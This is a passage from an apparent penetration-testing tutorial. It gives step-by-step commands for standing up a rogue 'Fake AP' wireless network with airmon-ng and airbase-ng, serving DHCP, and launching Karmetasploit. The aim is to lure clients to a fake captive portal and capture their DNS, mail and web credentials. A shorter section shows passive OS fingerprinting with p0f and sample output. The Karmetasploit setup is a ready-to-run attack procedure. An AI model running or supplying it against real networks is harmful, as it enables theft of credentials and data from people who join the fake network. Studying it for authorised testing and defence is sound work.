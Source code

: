 Now we are ready to go. First off, we need to locate our wireless card, then start our wireless adapter in monitor mode with airmon-ng. Afterwards we use airbase-ng to start a new wireless network.

```
# Locate interface
root@RoseSecurity:~# airmon-ng

# Start monitoring
root@RoseSecurity:~# airmon-ng start wlan0

# Start AP
root@RoseSecurity:~# airbase-ng -P -C 30 -e "Fake AP" -v wlan0mon

# Assign IP to interface
root@RoseSecurity:~# ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
```

Before we run our DHCP server, we need to create a lease database, then we can get it to listening on our new interface.

```
root@RoseSecurity:~# touch /var/lib/dhcp/dhcpd.leases
root@RoseSecurity:~# dhcpd -cf /etc/dhcp/dhcpd.conf at0
```

Run Karmetasploit:

```
root@RoseSecurity:~# msfconsole -q -r karma.rc_.txt
```

At this point, we are up and running. All that is required now is for a client to connect to the fake access point. When they connect, they will see a fake ‘captive portal’ style screen regardless of what website they try to connect to. You can look through your output, and see that a wide number of different servers are started. From DNS, POP3, IMAP, to various HTTP servers, we have a wide net now cast to capture various bits of information.

## Passive Fingerprinting with P0f:

Use interface eth0 (-i eth0) in promiscuous mode (-p), saving the results to a file (-o /tmp/p0f.log):

```
root@RoseSecurity:~# p0f -i eth0 -p -o /tmp/p0f.log

-- p0f 3.09b by Michal Zalewski <lcamtuf@coredump.cx> ---

[+] Closed 1 file descriptor.
[+] Loaded 322 signatures from '/etc/p0f/p0f.fp'.
[+] Intercepting traffic on interface 'eth0'.
[+] Default packet filtering configured [+VLAN].
[+] Log file '/tmp/p0f.log' opened for writing.
[+] Entered main event loop.

.-[ 172.16.0.23/35834 -> 172.16.0.79/22 (syn) ]-
|
| client   = 172.16.0.23/35834
| os       = Linux 4.11 and newer
| dist     = 0
| params   = none
| raw_sig  = 4:64+0:0:1460:mss*20,7:mss,sok,ts,nop,ws:df,id+:0
```
